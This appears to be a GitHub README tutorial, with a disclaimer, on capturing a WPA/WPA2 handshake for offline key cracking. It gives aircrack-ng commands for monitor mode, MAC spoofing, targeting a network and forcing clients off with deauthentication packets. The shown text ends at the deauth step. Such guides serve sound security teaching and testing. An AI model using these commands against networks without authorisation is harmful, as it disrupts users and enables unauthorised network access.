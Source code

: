 # WPA/WPA2 Handshake Capture Guide

This guide outlines hows to capture a WPA/WPA2 handshake in order to attempt to crack the pre-shared key using a wordlist.

## This guide is for educational purposes only. Unauthorized access to networks is illegal and unethical. Use only on networks you own or have explicit permission to test.

## Tools
- Kali Linux
- External wireless adapter
* airmon-ng - Enables monitor mode for adapter
* airodump-ng - Captures wireless packets and client activity
* aireplay-ng - Sends deauthentication packets to force handshake

  ### Check for adapter
    sudo iwconfig

  ### Enable adapter if disabled.

  ### Bring Down network in adapter
    sudo ifconfig wlan0 down

  ### Terminate running processes
    sudo airmon-ng check kill

  ### Turn monitor mode for adapter
    sudo airmon-ng start wlan0

  ### Spoof MAC address
    sudo macchanger -r wlan0

  ### Determine which networks 5GHz or 2GHz to test
    sudo airodump-ng --band a wlan0

  ### Target a network
    sudo airodump-ng --bssid (Targeted Network MAC) --channel (Targeted Network Channel) --write (txt file, optional) wlan0

  ### Devices talking to network should be listed.

  ### using seperate command target a device, to shut down, in order for it ping for a handshake with network during restart.
    sudo aireplay-ng --deauth 4 -a (Target Network MAC) -c(Target Device MAC) wlan0
  
